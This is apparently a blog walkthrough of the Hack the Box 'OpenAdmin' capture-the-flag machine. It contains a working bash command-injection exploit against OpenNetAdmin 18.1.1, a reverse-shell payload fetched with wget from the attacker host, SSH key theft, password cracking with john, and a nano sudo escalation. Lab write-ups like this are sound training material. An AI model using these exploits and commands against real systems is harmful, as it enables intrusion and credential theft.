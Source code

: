+++
author = "Nick"
categories = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
date = 2020-05-02T14:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/01/infocard.png"
slug = "hack-the-box-openadmin"
summary = "Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!"
tags = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
title = "Hack the Box - OpenAdmin"

+++


Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!

As always, we do our initial `nmap` scan: `nmap -sC -sV -oA initial 10.10.10.171`

We get back some basic results:
```
Nmap scan report for 10.10.10.171
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's see what's being hosted on port 80. We  get the defaul Apache install page. A quick peek at the source doesn't show anything unusual. We start up `gobuster` to start enumerating the service.

Command:
`gobuster dir -u 10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We get back two results: `music` and `artwork`. First we'll head over to `music` and take a look. We starte numerating the page manually. Looking at the source, JS libraries and the contact form. While we are doing this we see a link to `../ona`. When we browse to it we get a `OpenNetAdmin` page.

![](/images/2020/01/image-24.png)

As the title of the box implies, we should start looking at this for vulnerabilities. First we'll `seachsploit` for any. If those results seems slim, we'll start looking around the net for further results.

Command:
`searchsploit opennetadmin`

![](/images/2020/01/image-25.png)

We know that we are running version 18.1.1, so these all fit our criteria. Let's load up `Metasploit` and see what works for us. When we search inside `Metasploit` we don't see the module listed. Hmmm, well, let's download it from [exploit DB](https://www.exploit-db.com/exploits/47691) and import it into our `Metasploit Framework'.

To do this we need to copy the exploit from `searchsploit` into our `Metasploit Framework` directory set. Metasploit keeps the modules it uses here (on Kali Linux):

`/usr/share/metasploit-framework/modules`

Inside this path you will see that it's broken down into the module types. In this case, I'm going to copy the exploit into the `/exploits/linux/http/` location.

Command:
`cp $(locate 47772.rb) /root/.msf4/modules/exploits/linux/http/opennetadmin.rb`
then
`updatedb`

You can now relaunch `Metasploit`. Once it has been launched we issue `reload_all`. This will update our modules in all paths specified. You should see the exploit count increase by one.

Now we can `use` the module.

Command:
`use exploit/linux/http/opennetadmin`

We only need to set our `lhost` and `rhost` for this module. Then we `run` it. But nothing happens. Damn it. Re-run it, still nothing. Ok, let's try the shellscript that was shown in the earlier searchsploit results. We modify the script to look as such:

```bash
#!/bin/bash

URL="http://10.10.10.171/ona/login.php"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

![](/images/2020/01/openadmin_shell_cve.gif)

Now that we have the ability to execute remote commands. Let's turn this into a shell. I tried a few things to forward a shell out but the standards didn't work. So I hosted the basic pentest monkey shell and downloaded to the target system. 

Command:
`python -m SimpleHTTPServer 80`

Then on the remote server:
`wget 10.10.14.200/sh3ll.php`

We then navigated to the `sh3ll.php` URL and obtained a reverse shell.

![](/images/2020/01/openadmin_www_shell.gif)

Now that we have a more solid shell. We can enumerate internally a bit more. We host `linpeas` on our machine and download that as well. We go through the results and see some backup files:

![](/images/2020/01/image-26.png)

We send these files back to our attacking machine. Turns out, they're nothing. We keep looking at the items that show in our output. We see the `database_settings.inc.php` file. We look inside and see a password.

![](/images/2020/01/image-27.png)

We try to use `su` to change our user. First up, `Jimmy`. It works! We try to `SSH` as Jimmy as well, that works too. Great, no need for a webshell anymore. Now we start our enumeration process as Jimmy. We see there is something running on port 52846. We can curl it and get a login form. We know from our previous enumeration that there is a site called `internal`. Inside this are some files. `main.php`, `internal.php` and `logout.php`.

We see that the `main.php` code kicks out the content of Joanna's SSH key.

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

So based on this we can `curl` this port and send our data. The hint is given as 'Don't forget you "ninja" password', eluding to the password we already found.

Command:
`curl -X POST -F 'username=jimmy' -F 'password=n1nj4W4rri0R!' http://127.0.0.1:52846/main.php`

We get back Joanna's SSH private key!

![](/images/2020/01/openadmin_curl_ssh.gif)

With the key we now will send it through `ssh2john` and toss the rockyou list at it.

Command:
`ssh2john before_hash > cleaned_hash`

Then we'll send this file to `john` to crack.

Command:
`john cleaned_hash --wordlist=/usr/share/wordlists/rockyou.txt`

![](/images/2020/01/image-28.png)

We get a password of `bloodninjas` back. Now let's try and log in as Joanna.

Command:
`ssh -i id_rsa joanna@10.10.10.171`

We enter the password when we are pompted and we are in!

![](/images/2020/01/image-29.png)

Now that we're in as the 'final' user. We grab our `user.txt` file and start our root based enumeration. The first thing we do is `sudo -l`.

![](/images/2020/01/image-30.png)

We see that leverage `nano` as root. Our first stop when we see this is always [GTFObins](https://gtfobins.github.io/). It seems quite a few people had issues with this. The breakdown of above is as follows:

Joanna can run `/bin/nano` as `sudo` ON the following: `/opt/priv`

![](/images/2020/01/openadmin_root_gtfo.gif" caption="Laggy root shell)

Another box down! This box was particularly unstable. Hopefully something was learned during this machine! If this walkthrough helped you, send some respect my way :) [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



